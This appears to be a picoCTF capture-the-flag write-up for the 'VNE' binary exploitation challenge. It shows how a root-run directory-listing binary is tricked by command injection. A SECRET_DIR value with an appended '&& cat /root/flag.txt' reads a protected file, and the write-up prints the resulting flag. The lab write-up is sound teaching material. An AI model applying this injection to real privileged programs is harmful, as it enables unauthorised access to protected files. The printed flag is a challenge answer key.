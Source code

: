 # **VNE**

## **Overview:**
---
Category: Binary Exploitation

Points: 200

## **Description**
---
We've got a binary that can list directories as root, try it out !!
Additional details will be available after launching your challenge instance

## **Hints**
None.

## **Approach**
First the script expects us to have an environment variable set for SECRET_DIR.

There are two potential directories that have the same flag (I checked):
```
/challenge
/root
```
I originally picked /root.

Running the program it gives returns:
```
Listing the content of /root as root:
flag.txt
```

I tried to add a "cat" command while setting the eviroment variable and run file bin
```
export SECRET_DIR=/root' && cat /root/flag.txt'
./bin
Listing the content of /root && cat /root/flag.txt as root:
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}
```
And we did it!


## **Flag**
---
>**picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}**









